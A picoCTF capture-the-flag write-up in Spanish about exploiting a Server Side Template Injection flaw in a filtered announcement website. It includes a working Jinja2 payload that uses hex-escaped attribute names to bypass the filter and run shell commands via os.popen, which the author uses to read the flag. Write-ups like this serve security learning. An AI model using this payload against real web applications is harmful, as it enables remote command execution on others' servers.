 
## Descripción

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:59751/)!

## Solución

Ingresamos al sitio web.
Vemos un recuadro y un botón.
De acuerdo  las pistas y nombre del reto investigué sobre Server Side Template Injection.
Encontré la sección: RCE bypassing as much as I possibly can.
Intenté inyectar en el recuadro:
Probé algunas opciones y conseguí resultados con la última plantilla:
```
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}`
```
Cambié `id` por cat flag y al enviar de nuevo obtuve la bandera.

`picoCTF{sst1_f1lt3r_byp4ss_6787c4d8}`

## Notas adicionales

- A server side template injection is a vulnerability that occurs when a server renders user input as a template of some sort.
- Templates can be used when only minor details of a page need to change from circumstance to circumstance.

## Referencias

https://onsecurity.io/article/server-side-template-injection-with-jinja2/